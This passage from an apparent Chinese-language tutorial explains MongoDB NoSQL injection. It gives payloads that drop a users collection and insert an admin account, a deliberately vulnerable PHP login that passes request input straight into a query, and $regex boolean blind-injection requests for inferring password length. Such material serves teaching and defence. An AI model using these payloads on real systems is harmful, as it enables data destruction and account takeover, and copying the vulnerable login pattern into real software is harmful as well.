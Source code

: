 ```sql
```

这样都是很危险的，因为这个就相当于把 Mongo Shell 开放给了用户，如果此时构造下列 payload：

```sql
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```

则将改变原本的查询语句造成注入。如果当前应用连接数据库的权限恰好很高，我们能干的事情就更多了。

### 布尔盲注

当页面没有回显时，那么我们可以通过 `$regex` 正则表达式来进行盲注， `$regex` 可以达到和传统 SQL 注入中 `substr()` 函数相同的功能。

我们还是利用第一个 index.php 进行演示：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

布尔盲注重点在于怎么逐个提取字符，如下所示，在已知一个用户名的情况下判断密码的长度：

```sql
username=admin&password[$regex]=.{4}    // 登录成功
username=admin&password[$regex]=.{5}    // 登录成功
username=admin&password[$regex]=.{6}    // 登录成功
username=admin&password[$regex]=.{7}    // 登录失败
......
```
